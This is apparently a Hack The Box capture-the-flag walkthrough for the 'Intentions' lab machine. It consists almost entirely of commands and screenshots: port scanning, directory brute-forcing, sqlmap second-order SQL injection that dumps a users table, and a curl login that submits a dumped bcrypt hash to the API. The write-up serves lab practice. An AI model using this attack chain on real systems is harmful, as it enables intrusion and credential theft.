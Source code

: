 ![image](https://github.com/regarmulia/HTB/assets/33616880/854153bd-398f-49c3-8909-4e20537ab35b)```
nmap -sS -sC -sV -T5 -Pn 10.10.11.220
```
![image](https://github.com/regarmulia/HTB/assets/33616880/528dff0c-5310-4215-a2d5-7be40b47e7bd)

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://intentions.htb/FUZZ -fs 162 -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/7e5bb805-89c5-4842-a466-280fab8a28f3)

```
registration
```
![image](https://github.com/regarmulia/HTB/assets/33616880/3a12ee51-5c45-49b3-8cff-a1730160b60d)


```
sqlmap -r req1.txt --batch
sqlmap -r req2b.txt --batch
```
![image](https://github.com/regarmulia/HTB/assets/33616880/a41968e9-a125-4022-9554-7a2015c569a3)

![image](https://github.com/regarmulia/HTB/assets/33616880/a8183c38-7b4f-423c-8661-ca351f473565)

![image](https://github.com/regarmulia/HTB/assets/33616880/318256aa-4f54-4605-b7d5-2b4add64a990)



```
sqlmap -r req1.txt --second-req=req2.txt --batch --tamper=space2comment
```
![image](https://github.com/regarmulia/HTB/assets/33616880/1a7c8a8c-c45e-4474-86ac-090c34b7db0e)

![image](https://github.com/regarmulia/HTB/assets/33616880/806ea88f-c009-46ad-95b3-92d8e9cd2c79)


```
sqlmap -r updateGenresRequest --second-req=fetchFeedRequest --batch --tamper=space2comment --tables
```
![image](https://github.com/regarmulia/HTB/assets/33616880/230307ac-31be-47bc-9385-19d400791dd8)


```
sqlmap -r req1b.txt --second-req=req2b.txt --batch --tamper=space2comment -T users --dump
```
![image](https://github.com/regarmulia/HTB/assets/33616880/0fa022ca-bc8b-4cfb-9d89-05da8947f30d)


```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/big.txt -e -t 100 -u http://intentions.htb/api/v2/auth/ -b 403,404
```
![image](https://github.com/regarmulia/HTB/assets/33616880/a8a78134-9bdc-4b0b-9bcd-75725f2578f4)


```
http://10.10.11.220/api/v2/auth/login
curl -X POST http://intentions.htb/api/v2/auth/login
curl -X POST http://intentions.htb/api/v1/auth/login
```
![image](https://github.com/regarmulia/HTB/assets/33616880/94443e9d-fda1-424e-aa75-2bc33dbccf6e)

![image](https://github.com/regarmulia/HTB/assets/33616880/91adcde2-ab47-4d10-8890-016e7d0e6534)


```
curl -d 'email=steve@intentions.htb&hash=$2y$10$M/g27T1kJcOpYOfPqQlI3.YfdLIwr3EWbzWOLfpoTtjpeMqpp4twa' -X POST http://intentions.htb/api/v2/auth/login
```
![image](https://github.com/regarmulia/HTB/assets/33616880/a740f795-07cd-49c5-b0fa-4cba7ec0a070)

![image](https://github.com/regarmulia/HTB/assets/33616880/50514396-8dea-43e8-8654-ee351d81958b)


